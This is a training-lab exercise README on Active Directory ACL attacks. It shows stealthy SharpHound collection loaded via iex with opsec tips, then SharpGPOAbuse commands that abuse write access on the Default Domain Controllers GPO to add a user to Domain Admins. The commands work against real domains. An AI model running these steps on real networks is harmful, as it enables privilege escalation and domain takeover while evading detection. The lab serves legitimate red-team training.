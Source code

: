 # Exercise 7 - ACL-based attacks

## Tools

You can find all tools needed in the ["attacker-tools.zip"-file](../exercises/attacker-tools). The links below are for your own reference.

Tools needed:

- PowerView: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
- Bloodhound: [https://github.com/BloodHoundAD](https://github.com/BloodHoundAD)

## Exercise

This exercise is split in two parts. Part one covers the use of Bloodhound to collect and analyze data from Active Directory. Part two demonstrates an ACL-based attack on Group Policies.

### Part 1 - Bloodhound Exercise

First load "Sharphound", which is the data collection tool for Bloodhoud.

```
cd C:\attacker-tools
cat -raw .\SharpHound.ps1 | iex
```

Run sharphound to gather data on the domain.

```
Invoke-Bloodhound -CollectionMethod DcOnly -Stealth -PrettyJson -NoSaveCache
```

 - **-CollectionMethod DcOnly** means only collect data from the domain controller. This is preferable from an opsec-perspective since we blend in with existing traffic.
 - **-Stealth** means run single-threaded. Slower but also less noisy.
 - **-PrettyJson** means format the .json-files in a way that you can read them.
 - **-NoSaveCache** means do not save a cache file. Therefore everytime you run Sharphound it will start fresh from the beginning. Useful for demo purposes.

You shoud now see a ZIP file in your working directory called "TIMESTAMP_Bloodhound.zip". This ZIP contains the information gathered by Sharphound and can be ingested into Bloodhound. To get Bloodhound started we have to

1. Unzip "attacker-tools\BloodHound-win32-x64.zip".
2. After that, run "attacker-tools\BloodHound-win32-x64\BloodHound-win32-x64\BloodHound.exe". Log in with the user "neo4j" and the password you choose during Lab setup.
3. Ingest the ZIP file into bloodhound by just drag-and-drop it into the empty space in the center of the UI.

Thats it. Now you can start your analysis by experimenting with the "Pre-Built Analytics Queries" in the "Analysis" tab.

#### Questions

- We got control over taskservice through kerberoasting but Bloodhound also shows you a different attack path. Which other user can manipulate the user taskservice? `Hint:` we got control over that user in the NTLM exercise
- Find a way to exploit the attack path you just found and try to execute it in the lab environment.

### Part 2 - GPO Exercise

The previous exercise revealed that the user "taskservice" has write permissions on "Default Domain Controllers" group policy. We'll use this to get us domain admin rights.

First, start powershell as user "taskservice". Since we know the password by now, we can just use run-as. Then go on with the steps below in this new powershell window.

```
cd C:\attacker-tools
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author contoso\adminuser --Command "cmd.exe" --Arguments '/c net group \"Domain Admins\" john /ADD' --GPOName "Default Domain Controllers Policy" --force
```

In a real environment, we would have to wait until the gpo is reprocessed by the DC. To speed this up, run gpupdate on the DC.

```
gpupdate /force
```

Verify that it worked by checking johns group memberships (using powerview again).

```
Get-DomainUser john | select memberof
```

**Woohoo - you finally made it to Domain Admin. Now grab yourself a beverage of your choice :-)**
